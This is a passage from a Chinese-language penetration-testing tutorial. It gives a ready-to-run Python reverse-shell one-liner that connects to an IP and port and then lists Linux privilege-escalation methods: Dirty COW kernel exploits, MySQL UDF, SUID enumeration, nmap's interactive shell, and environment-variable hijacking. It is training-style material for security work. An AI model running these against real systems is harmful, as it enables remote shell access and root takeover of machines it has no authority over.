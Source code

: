 反弹shell在可新建文件的目录里新建一个python文件a.py，将下面代码保存进去，然后命令行执行

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

需要修改其中的ip和端口。



## 0x03 权限提升

#### 1. 内核溢出提权（如脏牛）

- 查看内核

```shell
uname -r
```

- 反弹shell执行命令
- 上传exp
- 编译
- 执行
- 根据内核版本查找对应漏洞
- 收集exp

可以从[www.exploit-db.com](http://www.exploit-db.com)查找漏洞利用。

> Linux脏牛提权CVE-2016-5195: 【dirty cow】
>
> 如果目标靶机存在gcc/g++，则直接上传.c/.cpp文件然后进行编译，执行提权；
>
> 如果没有，则需要线下准备好环境提前编译，上传编译后的可执行文件，执行提权。

#### 2. MySQL udf提权

- 上传库文件
- 执行库文件创建命令执行函数

#### 3. 利用SUID提权

寻找系统里可以用的SUID文件来提权

```shell
find / -perm -u=s -type f 2>/dev/null
```

举个例子，假设发现nmap有SUID标志位，nmap支持`interactive.`选项，用户能够通过该选项执行shell命令，通常安全人员会使用该命令来避免他们使用nmap命令备记录在history文件中。 所以通过nmap命令`!sh`就会获取到一个root权限的shell。

#### 4. 利用环境变量劫持高权限程序提权

- 查找可操作文件

```shell
find / -perm -u=s -type f 2>/dev/null
```
